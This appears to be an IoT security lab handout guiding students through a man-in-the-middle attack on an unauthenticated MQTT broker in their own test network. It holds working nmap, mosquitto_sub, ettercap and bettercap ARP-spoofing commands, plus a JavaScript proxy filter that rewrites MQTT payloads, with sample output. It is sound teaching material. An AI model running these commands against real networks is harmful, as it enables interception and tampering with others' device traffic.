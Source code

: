 # Lab 3: LAN Exploits

Your goal is to attack known vulnerabilities in the target system.

## 1. MQTT MITM

### 1.1. Scenario

The attacker has gained access to an IoT LAN network, and has collected information on hosts on the network, their IPs, open ports and services. Through service scan an unprotected MQTT broker has been discovered.

The attacker then aims to discover MQTT clients and start modifying the their published messages. This requires a Man-in-the-middle (MITM) attack.

### 1.2. Document MQTT packet flow

You should have a working setup with ESP32 publishing MQTT data to a topic that it also subscribes and prints to console. So every new data message is sent to broker and received from broker. The messages travel over multiple layer 2 hops as shown in template diagram below. Your first task is to document the current setup as sequence diagram, showing the source and destination addresses for each data frame (both MAC and IP). The first hop is from my setup as an example. Update all participant addresses and message IP/MAC endpoints based on your setup.

The general logic is that

- On layer 3 (IP addressing) the packets contain source and destination IPs according to endpoints, except that in NAT translation the private network endpoint is changed to NAT public side IP.
- For each layer 2 hop, the MAC addresses should be according to hop endpoints.

To obtain the data,

- ESP32 IP/MAC addresses and data frame sample you can get from raspi using tcpdump `sudo tcpdump -e -i wlan0 tcp port 1883`
- raspi eth0 traffic similarly: `sudo tcpdump -e -i eth0 tcp port 1883`
- broker traffic: `docker exec -it mosquitto tcpdump -e -i eth0 tcp port 1883`
  '
  Update the diagram and submit to your repo as `normal_mqtt_flow.md`

```mermaid
sequenceDiagram
    participant ESP32 as ESP32<br>192.168.99.242<br>54:32:04:07:16:68
    participant RaspiAP as RasPi AP<br>192.168.99.1<br>dc:a6:32:18:74:d9
    participant Raspi as RasPi eth0<br>192.168.1.39
    participant ERX as ER-X<br>192.168.1.1
    participant broker as MQTT broker<br>192.168.1.13
    ESP32->>+RaspiAP: 192.168.99.242 --> 192.168.1.13 <br> 54:32:04:07:16:68 --> dc:a6:32:18:74:d9
    RaspiAP->>Raspi: (NAT address translation)
    Raspi ->> ERX: 192.168.1.39 --> 192.168.1.13
    ERX ->> broker: 192.168.1.39 --> 192.168.1.13
    broker ->> ERX: add
    ERX ->> Raspi: add
    Raspi ->> RaspiAP: (NAT address translation)
    RaspiAP ->> ESP32: add
```

### 1.3 MITM to discover MQTT clients

1. Install `mosquitto-clients` on kali VM
2. As the attacker to discover if there are running MQTT services in network, perform a port scan for default MQTT port 1883 being open in any of the hosts within LAN: In Kali VM, `nmap 192.168.1.0/24 -p 1883 --open` and you get broker IP.
3. Knowing from previous lab, the broker doesn't require authentication. Now having the broker IP, just listen to wildcard traffic `mosquitto_sub -v -h <broker-ip> -t "#"` we can receive all topics and messages. You can now see the data, but you do not know who is the sensor device publishing that data.
4. The messages don't give any info on sender devices, so we don't know publisher IP addresses. We'll use **ARP poisoning** to get into message flow so that we can see the actual messages sent from ESP to MQTT broker:
   a) In kali vm, open wireshark on eth0 and set display filter to `mqtt`
   b) If you are listening to wildcard traffic in terminal, you see those packets sent to your kali vm IP address. Next, **stop the mosquitto_sub command** and restart wirteshark capture to get clean display.
   c) To find out who (what IP addresses) are mqtt clients, you'll tell to all devices in network that broker IP belongs to kali MAC. So all mqtt clients' messages will appear in kali port 1883. - mqtt client sends ethernet frame (containing IP packet (containing MQTT publish message)) to destination MAC address. Because of ARP poisoning, that destination MAC is kali MAC. - kali receives the packet (as shown in wireshark capture), and forwards it to original broker MAC address. The frame contains original IP addresses and mqtt content.
   Start MITM attack with `sudo ettercap -T -M arp:remote /192.168.1.13// ///` (replace IP with your mosquitto container IP). Check kali wireshark: You can now see MQTT messages and sender IP, right?
   d) Document the current the setup as `mitm_mqtt_flow.md` : Add node kali in the interception point, and add + change the necessary message frame addresses according to this MITM setup.
   e) Stop the ettercap MITM with ctrl-C.

### 1.4 Modifying the data frames sent by ESP

Next your aim is not only to intercept the MQTT traffic from ESP to broker, but want to modify the packet contents as well. This can be done with `ettercap`, but for more flexibility will switch `bettercap` tool.

Open wireshark in kali. Set display filter mqtt. Initially you dont see any mqtt packets.

In kali `sudo apt install bettercap`

To see who are clients (just to replicate the step you already did with ettercap):

```
┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.13; set net.sniff.verbose true; set net.sniff.local false; arp.spoof on; net.sniff on"

```

The previous ARP poisoning affected all devices in LAN. Next we focus only on traffic between two devices, ESP32 and the broker:

```
┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.1,192.168.1.13; set arp.spoof.fullduplex true; set net.sniff.verbose false; set net.sniff.local false; arp.spoof on; net.sniff on"
```

To modify the packet content we use a JavaScript filter `replace.js`. Create it on kali with with content is as printed with command below (in repository there is longer more refined version, but the basic functionality is the same):

```
┌──(kali㉿kali)-[~]
└─$ cat replace.js
function onLoad() {
  console.log("[+] TCP Proxy Script Loaded.");
}

function onData(from, to, data, callback) {
    // Convert byte array to string
    var payload = "";
    for (var i = 0; i < data.length; i++) {
        payload += String.fromCharCode(data[i]);
    }

    console.log("[*] Intercepted Data: " + payload);

    // Check if the payload contains the string "data"
    if (payload.indexOf("data") !== -1) {
        // Replace "data" with "XXXX"
        var modifiedPayload = payload.replace(/data/g, "XXXX");
        console.log("[*] Modified MQTT Payload: " + modifiedPayload);

        // Modify the original data array in place
        for (var i = 0; i < modifiedPayload.length; i++) {
            data[i] = modifiedPayload.charCodeAt(i) & 0xFF;
        }

        console.log("[*] Returning modified packet.");
        return data; // Return the modified original data object
    }

    console.log("[*] No modification applied.");
    return data; // Return the original data object if no modification
}

```

Check your kali IP and modify the MITM message modification accordingly:

```
┌──(kali㉿kali)-[~]
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:05:20:16 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.41/24 brd 192.168.1.255 scope global dynamic noprefixroute eth0
       valid_lft 61138sec preferred_lft 61138sec
    inet6 fe80::be24:11ff:fe05:2016/64 scope link noprefixroute
       valid_lft forever preferred_lft forever

┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.1,192.168.1.13; set arp.spoof.fullduplex true; set net.sniff.verbose false; set net.sniff.local false; set tcp.proxy.script replace.js; set tcp.proxy.address 192.168.1.41; set tcp.proxy.port 1884; set tcp.address 192.168.1.13; set tcp.port 1883; tcp.proxy on; arp.spoof on; net.sniff on"


```

In kali, you should see messages like below, and in ESP vscode terminal you should see that subscribed data has modified content too.

```
[11:01:43] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:43] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] Intercepted Packet From: 192.168.1.39 To: 192.168.1.13
[*] Intercepted Data: 0
                       /topic/qos0data8
[*] Modified MQTT Payload: 0
                            /topic/qos0XXXX8
[*] Returning modified packet.
[11:01:44] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:44] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] Intercepted Packet From: 192.168.1.39 To: 192.168.1.13
[*] Intercepted Data: 0
                       /topic/qos0data9
[*] Modified MQTT Payload: 0
                            /topic/qos0XXXX9
[*] Returning modified packet.
[11:01:45] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:45] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » q
[11:01:45] [sys.log] [inf] arp.spoof waiting for ARP spoofer to stop ...
[11:01:45] [sys.log] [inf] arp.spoof restoring ARP cache of 2 targets.

┌──(kali㉿kali)-[~]
└─$

```
